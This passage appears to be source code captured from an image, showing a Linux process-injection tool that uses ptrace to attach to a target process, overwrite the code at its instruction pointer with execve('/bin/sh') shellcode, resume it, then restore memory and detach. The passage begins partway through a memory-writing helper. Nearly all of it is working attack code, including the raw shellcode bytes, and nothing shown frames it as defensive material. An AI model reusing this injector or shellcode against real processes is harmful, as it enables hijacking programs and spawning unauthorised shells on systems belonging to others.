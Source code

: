 ```cpp
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}

int main(int argc, char *argv[]) {
  if (argc != 2) {
    printf("usage: %s <target_pid>\n", argv[0]);
    return 1;
  }

  pid_t target_pid = atoi(argv[1]);
  char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
  "\x69\x6e\x2f\x2f\x73\x68\x57\x54"
  "\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
  int payload_len = sizeof(payload) - 1;
  char original_code[payload_len];

  struct user_regs_struct target_regs;

  // attach to the target process
  printf("attaching to process %d\n", target_pid);
  if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
    perror("failed to attach :(");
    return 1;
  }
  waitpid(target_pid, NULL, 0);

  // get the current registers
  printf("reading process registers\n");
  ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);

  // backup the memory at RIP
  printf("backing up target memory\n");
  read_mem(target_pid, target_regs.rip, original_code, payload_len);

  // inject the payload
  printf("injecting payload\n");
  write_mem(target_pid, target_regs.rip, payload, payload_len);

  // hijack execution
  printf("hijacking process execution\n");
  ptrace(PTRACE_CONT, target_pid, NULL, NULL);

  // wait for the payload to execute
  wait(NULL);

  // restore the original code
  printf("restoring original process memory\n");
  write_mem(target_pid, target_regs.rip, original_code, payload_len);

  // detach from the process
  printf("detaching from process\n");
  ptrace(PTRACE_DETACH, target_pid, NULL, NULL);

  printf("injection complete\n");
```